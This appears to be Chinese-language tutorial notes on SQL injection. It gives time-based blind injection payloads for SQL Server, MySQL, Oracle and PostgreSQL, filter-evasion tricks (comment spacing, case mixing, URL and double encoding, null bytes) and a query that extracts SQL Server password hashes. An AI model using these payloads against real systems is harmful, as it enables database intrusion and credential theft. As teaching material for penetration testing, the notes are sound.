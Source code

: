 

七．SQL盲注
sql盲注是一种sql注入漏洞，攻击者可以操作sql语句，应用会针对真假条件返回不同的值，但是攻击者无法获取数据库执行查询后的结果（如错误信息）

（1）时间延迟
web服务器虽然可以隐藏错误或数据，但必须等待数据库返回结果，因此可用它来确认是否存在sql注入

sql server（waitfor delay ‘HH:mm:ss’,延迟命令）
http://www.victim.com/basket.aspx?uid=45;waitfor delay ‘0:0:5’;--

mysql(benchmark(n,action),反复执行函数)
http://www.victim.com/basket.aspx?uid=45;select benchmark(10000000,encode(‘hello’,’mom’));-- 
(大概3.65s)

oracle(dbms_pipe.receive_message(‘RDS’,10)，延迟过程)
http://www.victim.com/basket.aspx?uid=45 or 1=dbms_pipe.receive_message(‘RDS’,10);

postgresql(pg_sleep(n))
http://www.victim.com/basket.aspx?uid=45;select pg_sleep(10);--



八，躲避技术

(1)躲避空格
利用多行注释
http://www.victim.com/messages/list.aspx?uid=45/**/or/**/1=1

(2)使用大小写变种(select, from等关键字)
数据库不区分大小写
select password from shadows where username=’admin’
<==>
sElect password FrOm shadows WheRE username=’admin’

(3)使用URL编码
/**/union/**/select/**/password/**/from/**/temp
基本url编码(对/*编码)
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/temp
双url编码(对/*与%编码)
%252f%252a*/union%252f%252a*/select%252f%252a*/password%252f%252a*/from%252f%252a*/temp
unicode编码


(4)使用空字节
利用c语言的字符串空字节结束的特点
%00’union select password from temp



九．窃取哈希口令(需要管理员权限)
sql server
select password_hash from sys.sql_logins

0x0100014b47efe730985acb6ad7976804e4292e8177d4a492192c

0x0100:头
14b47efe：salt
730985acb6ad7976804e4292e8177d4a492192c:区分大小写的哈希

